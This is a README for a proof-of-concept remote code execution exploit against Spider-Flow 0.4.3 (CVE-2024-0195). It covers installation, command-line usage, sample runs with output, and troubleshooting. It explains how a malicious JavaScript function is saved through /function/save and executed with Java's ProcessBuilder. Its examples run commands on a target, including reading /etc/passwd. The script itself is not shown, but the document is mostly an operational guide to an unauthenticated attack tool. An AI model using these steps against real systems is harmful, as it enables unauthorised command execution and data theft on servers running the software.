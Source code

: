 # Spider-Flow 0.4.3 Remote Code Execution POC (CVE-2024-0195)

## Exploit Usage

### Prerequisites
- Python 3.x
- `requests` library (`pip install requests`)
- Target running spider-flow version 0.4.3
- Network access to target

### Installation
```bash
git clone <repository_url>
cd cve/CVE-2024-0195
```

### Basic Usage
```bash
python3 exploit.py -u <target_url> -c <command>
```

### Command-line Options
- `-u, --url`: Target URL (e.g., http://localhost:8088)
- `-c, --command`: Command to execute on target system

### Examples

1. Basic system information:
```bash
# Get user information
python3 exploit.py -u http://localhost:8088 -c "id"

# Expected output:
[*] Sending exploit to http://localhost:8088/function/save
[*] Response status: 200
[*] Execute response: uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),27(sudo)
```

2. File system access:
```bash
# List directory contents
python3 exploit.py -u http://localhost:8088 -c "ls -la /tmp"

# Read sensitive files
python3 exploit.py -u http://localhost:8088 -c "cat /etc/passwd"
```

3. Network information:
```bash
# Check network configuration
python3 exploit.py -u http://localhost:8088 -c "ifconfig"

# Test connectivity
python3 exploit.py -u http://localhost:8088 -c "ping -c 1 8.8.8.8"
```

### Technical Details

The exploit works by:
1. Creating a malicious JavaScript function via `/function/save` endpoint
2. Using Java's ProcessBuilder for command execution
3. Capturing and base64 encoding the command output
4. Retrieving results via `/function/test` endpoint

### Troubleshooting

1. If command execution fails:
   - Verify target URL is accessible
   - Check if target is running spider-flow 0.4.3
   - Ensure command doesn't contain special characters

2. If no output is received:
   - Try simpler commands first (e.g., "id", "whoami")
   - Check if command produces output to stderr
   - Verify network connectivity to target

### Limitations
- Commands with spaces need proper quoting
- Some special characters may need escaping
- Long-running commands might timeout
- Binary output may not display correctly

## Vulnerability Details

Brief technical summary of CVE-2024-0195:
- Affects spider-flow version 0.4.3
- Remote Code Execution via JavaScript injection
- No authentication required by default
- CVSS Score: 9.8 (Critical)

For full CVE details: [CVE-2024-0195](https://nvd.nist.gov/vuln/detail/CVE-2024-0195)

## Disclaimer
This POC is for security research and testing purposes only. Do not use against unauthorized systems.
